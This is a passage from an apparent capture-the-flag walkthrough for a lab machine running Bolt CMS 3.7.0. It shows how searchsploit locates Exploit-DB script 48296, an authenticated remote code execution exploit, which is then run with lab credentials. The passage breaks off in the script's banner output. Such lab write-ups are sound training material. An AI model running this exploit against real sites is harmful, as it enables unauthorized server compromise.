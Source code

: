 Great! We have an Authenticated RCE, let's do it.

# **Foothold**

## Method 1 (python script)

For this, we need have an exploit, we will use `Bolt CMS 3.7.0 - Authenticated Remote Code Execution | php/webapps/48296.py` that searchsploit found earlier :

```terminal
$ searchsploit -p 48296.py                                                                                                                           130 ⨯
  Exploit: Bolt CMS 3.7.0 - Authenticated Remote Code Execution
      URL: https://www.exploit-db.com/exploits/48296
     Path: /usr/share/exploitdb/exploits/php/webapps/48296.py
File Type: Python script, Unicode text, UTF-8 text executable
```

We can either go to the [URL](https://www.exploit-db.com/exploits/48296) and download the script, or copy it from our machine to our current working directory:

```terminal
$ cp /usr/share/exploitdb/exploits/php/webapps/48296.py .
```

Let's run the script without any arguments to see how it works:

```terminal
$ python3 exploit.py                                            

 ▄▄▄▄▄▄▄▄▄▄   ▄▄▄▄▄▄▄▄▄▄▄  ▄       ▄▄▄▄▄▄▄▄▄▄▄  ▄▄▄▄▄▄▄▄▄▄▄  ▄▄       ▄▄  ▄▄▄▄▄▄▄▄▄▄▄      
▐░░░░░░░░░░▌ ▐░░░░░░░░░░░▌▐░▌     ▐░░░░░░░░░░░▌▐░░░░░░░░░░░▌▐░░▌     ▐░░▌▐░░░░░░░░░░░▌     
▐░█▀▀▀▀▀▀▀█░▌▐░█▀▀▀▀▀▀▀█░▌▐░▌      ▀▀▀▀█░█▀▀▀▀ ▐░█▀▀▀▀▀▀▀▀▀ ▐░▌░▌   ▐░▐░▌▐░█▀▀▀▀▀▀▀▀▀      
▐░▌       ▐░▌▐░▌       ▐░▌▐░▌          ▐░▌     ▐░▌          ▐░▌▐░▌ ▐░▌▐░▌▐░▌               
▐░█▄▄▄▄▄▄▄█░▌▐░▌       ▐░▌▐░▌          ▐░▌     ▐░▌          ▐░▌ ▐░▐░▌ ▐░▌▐░█▄▄▄▄▄▄▄▄▄      
▐░░░░░░░░░░▌ ▐░▌       ▐░▌▐░▌          ▐░▌     ▐░▌          ▐░▌  ▐░▌  ▐░▌▐░░░░░░░░░░░▌     
▐░█▀▀▀▀▀▀▀█░▌▐░▌       ▐░▌▐░▌          ▐░▌     ▐░▌          ▐░▌   ▀   ▐░▌ ▀▀▀▀▀▀▀▀▀█░▌
▐░▌       ▐░▌▐░▌       ▐░▌▐░▌          ▐░▌     ▐░▌          ▐░▌       ▐░▌          ▐░
▐░█▄▄▄▄▄▄▄█░▌▐░█▄▄▄▄▄▄▄█░▌▐░█▄▄▄▄▄▄▄▄▄ ▐░▌     ▐░█▄▄▄▄▄▄▄▄▄ ▐░▌       ▐░▌ ▄▄▄▄▄▄▄▄▄█░▌
▐░░░░░░░░░░▌ ▐░░░░░░░░░░░▌▐░░░░░░░░░░░▌▐░▌     ▐░░░░░░░░░░░▌▐░▌       ▐░▌▐░░░░░░░░░░░▌
 ▀▀▀▀▀▀▀▀▀▀   ▀▀▀▀▀▀▀▀▀▀▀  ▀▀▀▀▀▀▀▀▀▀▀  ▀       ▀▀▀▀▀▀▀▀▀▀▀  ▀         ▀  ▀▀▀▀▀▀▀▀▀▀▀

Pre Auth rce with low credintanl
#Zero-way By @r3m0t3nu11 speical thanks to @dracula @Mr_Hex
1
[~] Usage : ./bolt.py url username password
```

Now we can run the script and give it the url, the username and the password for it to do its job:

```terminal
$ sudo python3 48296.py http://10.10.102.179:8000 bolt boltadmin123                                                                                  1 ⨯

 ▄▄▄▄▄▄▄▄▄▄   ▄▄▄▄▄▄▄▄▄▄▄  ▄       ▄▄▄▄▄▄▄▄▄▄▄  ▄▄▄▄▄▄▄▄▄▄▄  ▄▄       ▄▄  ▄▄▄▄▄▄▄▄▄▄▄                                                                        
▐░░░░░░░░░░▌ ▐░░░░░░░░░░░▌▐░▌     ▐░░░░░░░░░░░▌▐░░░░░░░░░░░▌▐░░▌     ▐░░▌▐░░░░░░░░░░░▌                                                                       
▐░█▀▀▀▀▀▀▀█░▌▐░█▀▀▀▀▀▀▀█░▌▐░▌      ▀▀▀▀█░█▀▀▀▀ ▐░█▀▀▀▀▀▀▀▀▀ ▐░▌░▌   ▐░▐░▌▐░█▀▀▀▀▀▀▀▀▀                                                                        
▐░▌       ▐░▌▐░▌       ▐░▌▐░▌          ▐░▌     ▐░▌          ▐░▌▐░▌ ▐░▌▐░▌▐░▌                                                                                 
▐░█▄▄▄▄▄▄▄█░▌▐░▌       ▐░▌▐░▌          ▐░▌     ▐░▌          ▐░▌ ▐░▐░▌ ▐░▌▐░█▄▄▄▄▄▄▄▄▄                                                                        
▐░░░░░░░░░░▌ ▐░▌       ▐░▌▐░▌          ▐░▌     ▐░▌          ▐░▌  ▐░▌  ▐░▌▐░░░░░░░░░░░▌                                                                       
```